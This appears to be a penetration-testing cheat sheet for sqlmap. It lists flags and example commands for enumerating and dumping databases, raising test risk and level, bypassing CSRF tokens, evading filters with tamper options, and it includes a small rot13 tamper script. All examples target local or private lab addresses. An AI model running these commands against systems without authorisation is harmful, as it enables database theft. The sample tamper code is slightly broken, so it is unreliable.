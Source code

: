 ## SQLMap

### General

--wizard SQLmap in wizard mode

--flush-session Flush session files for current target

### Extracting Information

--dbs          Enumerate DBMS databases

--tables       Enumerate DBMS database tables

--dump         Dump DBMS database table entries

--dbms=SQLite  Select database type (e.g. "MySQL", "PostgreSQL", "Oracle", "Microsoft SQL Server")

--method POST

--level=LEVEL  Level of tests to perform (1-5, default 1)

--risk=RISK    Risk of tests to perform (1-3, default 1), Warning: Only use risk level 3 in test environment!

--technique=T  The selected SQL injection technique (e.g. B: Boolean-based blind, U: Union query-based, T: Time-based blind)

--proxy=PROXY  Use a proxy to connect to the target URL

### Examples

#### Common

`sqlmap --flush-session --wizard -u "http://10.10.10.1/index.php" --tables`

`sqlmap --flush-session -p name --method POST --data="name=&submit=submit" -u "http://127.0.0.1:8888/index.php" --tables -v 3 --risk=3 --level=5`

`sqlmap --flush-session -p name --method POST --data="name=&submit=submit" -u "http://127.0.0.1/index.php" --dump -v 3 --risk=3 --level=5 --technique=U`

#### CSRF Protection

`sqlmap --flush-session -p name --method POST --data='name=a&CSRFToken=y&submit=submit' -u 'http://localhost:8888/index.php' --tables -v 3 --risk=3 --level=5 --csrf-token='CSRFToken' --csrf-url='http://localhost:8888/index.php'`

#### Dinamic pages
 
--string=STRING     String to match when query is evaluated to True

--not-string=NOT..  String to match when query is evaluated to False

--regexp=REGEXP     Regexp to match when query is evaluated to True

`sqlmap --flush-session -p name --method POST --data='name=&submit=submit' -u 'http://127.0.0.1:8888/index.php' --dump -v 3 --risk=3 --level=5 --string=Query`

#### Evasion

--tamper="randomcase,space2comment"

`sqlmap --flush-session -p name --method POST --data='name=&submit=submit' -u 'http://127.0.0.1:8888/index.php' --dump -v 3 --risk=3 --level=5 --tamper=randomcase,space2comment`

#### Payload Processiong

We can create payload preprocessing scripts in the sqlmap/tamper directory (e.g. "/usr/share/sqlmap/tamper/rot13.py")

```
def tamper(payload, **kwargs):
    if payload:
        retVal = payload.encode('rot13')
    return retVal
```

`sqlmap -u http://127.0.0.1:8888/?order=description --tamper=rot13 --dbs --dbms=MySQL --technique=B --fresh-queries --keep-alive --threads=2 --no-cast`
